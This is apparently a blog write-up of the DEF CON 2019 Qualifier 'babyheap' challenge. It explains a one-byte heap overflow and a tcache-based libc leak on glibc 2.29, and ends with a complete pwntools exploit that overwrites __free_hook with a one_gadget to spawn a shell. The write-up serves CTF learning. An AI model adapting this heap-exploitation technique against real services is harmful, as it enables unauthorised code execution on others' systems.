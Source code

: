 ```yaml
---
layout: post
cover: 'assets/images/cover8.jpg'
navigation: true
title: '2019 DEF CON QUAL - babyheap'
date: 2019-05-29
tags: pwnable writeup
subclass: 'post'
logo: 'assets/images/ghost.png'
author: lanphere
categories: lanphere
disqus: true
---
```


I solved this challenge after CTF. So interesting.
I realized a new heap exploit technique via this challenge.

### Challenge

```
-----Yet Another Babyheap!-----
[M]alloc 
[F]ree 
[S]how 
[E]xit 
------------------------
Command:
> 
```

Seems like common heap challenge. We can allocate up to 10 chunks.
If input size for allocation is between 0 and 248(0xf8), malloc(0xf8).
If input is between 249 and 376(0x178), malloc(0x178).

### Vulnearbility

```
read(0, &buf, 1uLL);
size = (unsigned int)size;
cur_len = 0LL;
v4 = &chunks[2 * i];
// 1byte overflow
while ( buf != '\n' && buf )
{
  *(_BYTE *)(*v4 + cur_len) = buf;
  read(0, &buf, 1uLL);
  if ( size == cur_len )
    return 0LL;
  ++cur_len;
}
```

The vulnerability is that there is one-byte overflow getting input. So we can overwrite the lower one byte of size field of adjacent chunk.

The overall idea is as follows. 
1. There are three chunks. Size field of second chunk should be 0x101(chunks that are allocated with malloc(0xf8)).
2. Then free the first chunk and allocate with the same size, and overwrite size filed of second chunk with 0x181(size same as the size of chunk via malloc(0x178)).
3. Free the second chunk and allocate again. then we can overwrite large part of third chunk.

The reason that this vulnerability is possible is that this challenge uses glibc version of 2.29, which uses tcache, and tcache doesn't check the next chunk of to-be-freed chunk.

### Libc Leak

To leak base address of libc, the scenario is as follows.
1. allocate two chunks. Size of second chunk shoud be 0x101.
2. allocate 7 chunks whose size are 0x181.
3. free chunks whose indexes are between 3 and 9.(tcache becomes saturated with 7 chunks)
4. free second chunk. this freed chunk goes in unsorted bin
5. allocate a 0x178-size chunk. then third chunk is overwritten with size field of 0x80 and fd value of libc address. (pointer of third chunk is not deleted)

### Exploit

After libc leak, the rest is easy. Again using the idea explained above, this time we overwrite fd value of adjacent chunk with address of __free_hook,
and overwrite __free_hook with address of one gadget.

```
from pwn import *

bin = ELF('./babyheap')
libc = ELF('./libc.so', checksec=False)

context.log_level = 'debug'

one_gadget_offset = [0xe237f, 0xe2383, 0xe2386, 0x106ef8]


def malloc(size, content):
    conn.sendafter('Command:\n> ', 'M')
    conn.sendafter('Size:\n> ', str(size))
    conn.sendafter('Content:\n> ', content)


def free(idx):
    conn.sendafter('> ', 'F')
    conn.sendafter('> ', str(idx))


def show(idx):
    conn.sendafter('> ', 'S')
    conn.sendafter('> ', str(idx))


conn = process('./babyheap', env={'LD_PRELOAD': './libc.so'})
# gdb.attach(conn, '')

# Libc Leak
malloc(0xf8, 'AAAAAAA\n')
malloc(0xf8, 'BBBBBBB\n')
for i in range(8):
    malloc(0x178, 'AAAAAAAABBBBBBBB' * 7 +
           'CCCCCCCC' + '\x01\x01\x00')  # 2 ~ 9

for i in range(3, 10):
    free(i)

free(0)
malloc(0xf8, 'AAAAAAAA' * 2 * 0xf + 'BBBBBBBB' + '\x81\n')
free(1)
malloc(0xf8, 'DDDDDDD\n')

show(2)
libc_addr = u64(conn.recv(6) + '\x00\x00') - 0x1e4ca0
log.info('Libc_addr: ' + hex(libc_addr))

"""
Current State
idx 0: chunk(0xf8)
idx 1: chunk(0xf8)
idx 2: chunk(0x80)
idx 3: NULL

bin: tcache bin of chunk size 0x181 saturated
"""
malloc(0x178, 'EEEEEEE\n')  # 3rd
malloc(0x178, 'FFFFFFF\n')  # 4th
malloc(0xf8, 'GGGGGGG\n')  # 5th
malloc(0xf8, 'HHHHHHH\n')  # 6th
malloc(0xf8, 'IIIIIII\n')  # 7th

free(6)
malloc(0xf8, 'JJJJJJJJ' * 2 * 0xf + 'BBBBBBBB' + '\x81\n')
free(7)

free(5)
malloc(0xf8, 'KKKKKKKK' * 2 * 0xf + 'BBBBBBBB' + '\x81\n')
free(6)

p = 'LLLLLLLL'*2*0xf + 'BBBBBBBB'*2
p += p64(libc_addr + libc.symbols['__free_hook'])[:-1]

malloc(0x178, p)
malloc(0x178, 'MMMMMMM\n')
malloc(0x178, p64(libc_addr + one_gadget_offset[1])[:-1])

free(0)

conn.interactive()
```